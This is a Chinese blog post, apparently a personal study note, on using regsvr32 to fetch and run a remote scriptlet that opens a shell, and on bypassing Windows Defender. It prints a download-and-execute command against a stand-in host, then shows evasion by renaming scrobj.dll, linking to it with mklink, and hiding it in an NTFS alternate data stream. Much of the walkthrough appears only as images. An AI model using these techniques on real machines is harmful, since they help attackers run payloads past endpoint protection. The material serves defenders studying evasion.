少而不学，老而无识。
学习学习学习
regsvr32是什么
Regsvr32命令用于注册COM组件，是Windows系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行,下面是它常用的命令。

我们经常使用下面的方法来执行payload并反弹一个shell：
1 | regsvr32 /s /u /i:http://www.xxx.com/xxx.sct scrobj.dll |
在高版本的windows中集成了Windows Defender，在我们使用regsv32进行执行payload的时候就会被阻止：

具体细节显示如下：

fuzz过程
下面我们来尝试一些绕过的方法：
我们先来尝试把s、ｕ的位置互换一下看看：

去掉sct呢？

好吧，跟文件名没有关系，那我们在请求的地方加一些混淆呢？像下面这样：

额，还是不行，没办法，我们只能以此把相关参数删除查看情况，以便找到到底是什么拦截了我们的程序：
去掉/s /u

删除域名：

我去，吐了..那么如果不是http和scrobj.dll呢？


嗯，这就基本已经明了了，就是这两个东西是windows defener拦截的关键。
我们再来进行一个尝试，就是文件名的测试，比较某些ＡＶ是靠文件名来进行查杀的。测试方法很简单，将我们的regsrv32改名，运行：

结果一样，所以我们基本就可以肯定是http和scrobj.dll的锅了。
bypass
以下面的sct内容为例，进行bypass：
1 | <?XML version="1.0"?> |
修改dll绕过
既然scrobj这个dll名字被锁定了，那么我们就把它改个名字不久好了：
1 | C:\Users\Alice\Desktop>copy c:\Windows\System32\scrobj.dll bypass.dll |

dll链接绕过
在linux中有一种叫做软链接的技术，windows也有类似的技术，在windows中称为符号链接，可以使用Mklink创建类似linux软链接的效果，但是需要管理员权限。

创建一个链接

使用链接bypass：

使用ADS流绕过：
在NTFS中有各种各样的文件流，我们一般比较关注的是$DATA这个文件流，因为它可以用文件流的方式向一个文件中添加另一个文件的内容。

顺利绕过：
